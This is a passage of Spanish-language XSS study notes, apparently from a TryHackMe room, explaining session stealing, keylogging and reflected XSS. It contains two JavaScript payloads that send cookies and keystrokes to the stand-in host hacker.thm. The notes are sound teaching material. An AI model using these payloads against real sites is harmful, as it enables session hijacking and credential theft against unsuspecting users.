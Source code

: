 - *Session Stealing*: A menudo, las páginas web controlan la sesión del usuario almacenando piezas de información en el navegador (cookies, tokens, etc) que son extraibles mediante la instrucción correcta en JavaScript:

```html
<script>fetch('https://hacker.thm/steal?cookie=' + btoa(document.cookie));</script>
```

- *Key Logger*: Un keylogger es un tipo de malware, código malicioso, que captura, guarda y envía las teclas que pulsa un usuario a un atacante. De esta forma se pueden reconstruir piezas de inforamación sensible:

```html
<script>document.onkeypress = function(e) { fetch('https://hacker.thm/log?key=' + btoa(e.key) );}</script>
```

<br />

**Reflected XSS**

El *Reflected XSS* es un tipo de XSS en el que el payload JavaScript malicioso se incluye a modo de elemento HTML (\<script>) en el documento HTML que recibe el cliente y que se procesa en su navegador.

<div style="text-align:center">
	<img src="{{ 'assets/img/THM/Pasted image 20220815181302.png' | relative_url }}" text-align="center"/>
</div>

La imagen anterior suele resumir el caso típico:

1. Un atacante envía un link malicioso a una víctima ingenua.
2. La víctima clicka en el link. (Recordamos que un link no es más que una URL y esta a su vez no es más que una instrucción para que el navegador procese una HTTP request a un servidor externo. En este caso, el link contiene una parte maliciosa (que sería el payload) que hace que la respuesta HTML esté "envenenada)". 
3. El navegador del cliente procesa la instrucción del link y lleva a cabo una solicitud HTTP y recibe a modo de respuesta un documento HTML por parte del servidor web que contiene código JavaScript malicioso.
4. El código malicioso es ejecutado por el navegador de la víctima y realiza una acción que beneficia al atacante a costa del cliente que generalmente consiste en la apropiación de datos sensibles (como cookies, contraseñas, etc). 

<br />

Los puntos en los que es pertienente buscar Reflected XSS consisten en:

- Parametros de la URL Query String.
- URL File Path.
- Cabeceras HTTP.

En general, cualquier apartado en el que el usuario pueda introducir "input" que se refleje en la respuesta HTML. 

<br />

**Stored XSS**
